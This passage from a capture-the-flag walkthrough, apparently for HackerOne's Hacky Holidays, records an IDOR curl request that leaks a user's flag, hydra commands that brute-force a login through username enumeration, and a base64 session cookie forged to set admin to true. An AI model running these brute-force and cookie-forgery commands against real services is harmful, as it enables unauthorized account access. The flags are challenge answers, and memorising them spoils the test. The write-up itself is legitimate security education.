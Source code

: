 `curl https://hackyholidays.h1ctf.com/swag-shop/api/user?uuid=C7DCCE-0E0DAB-B20226-FC92EA-1B9043` will return the Grinch's user details in JSON format with the flag:

```json
{
  "uuid":"C7DCCE-0E0DAB-B20226-FC92EA-1B9043",
  "username":"grinch",
  "address":{"line_1":"The Grinch","line_2":"The Cave","line_3":"Mount Crumpit","line_4":"Whoville"},
  "flag":"flag{972e7072-b1b6-4bf7-b825-a912d3fd38d6}"
}
```

- The 4th flag `flag{972e7072-b1b6-4bf7-b825-a912d3fd38d6}`.

# Secure Login

There is an app where we can log in. When we provide any username/password combination, server returns *Invalid Username* error message. I suppose, that server returns the different error messages for invalid username and password:

- When username is invalid, the error message is *Invalid Username*.
- When password is invalid, the error message is *Invalid Password*.

Using this information, let's run `hydra` tool to find the valid username, and using it, the valid password.
```bash
# find username
$ hydra -L ./names.txt -p pass hackyholidays.h1ctf.com https-post-form "/secure-login:username=^USER^&password=^PASS^:F=Invalid Username" -t 50 -I -f

# find password for username `access`
$ hydra -l access -P ./10k-most-common.txt hackyholidays.h1ctf.com https-post-form "/secure-login:username=^USER^&password=^PASS^:F=Invalid Password" -t 50 -I -f
```

`hydra` will find the valid credentials for us: `access`/`computer`.

Now, let's try to log in using them. The server will return `securelogin` cookie and the message in the body: *No Files To Download*. It seems that we haven't enough permissions to see the private data. Let's look at `securelogin` cookie. It's base64 encoded string: `eyJjb29raWUiOiIxYjVlNWYyYzlkNThhMzBhZjRlMTZhNzFhNDVkMDE3MiIsImFkbWluIjpmYWxzZX0=`, decoded value is json object: `{"cookie":"1b5e5f2c9d58a30af4e16a71a45d0172","admin":false}`. Let's change `admin:false` to `admin:true` and encode json to base64: `eyJjb29raWUiOiIxYjVlNWYyYzlkNThhMzBhZjRlMTZhNzFhNDVkMDE3MiIsImFkbWluIjp0cnVlfQ==`. Now we will curl the url again, using the new cookie:

```bash
$ curl https://hackyholidays.h1ctf.com/secure-login -H "cookie: securelogin=eyJjb29raWUiOiIxYjVlNWYyYzlkNThhMzBhZjRlMTZhNzFhNDVkMDE3MiIsImFkbWluIjp0cnVlfQ%3d%3d"
```

The response body will contain a link to some secure zip file:
```html
<td><a href="/my_secure_files_not_for_you.zip">my_secure_files_not_for_you.zip</a></td>
```
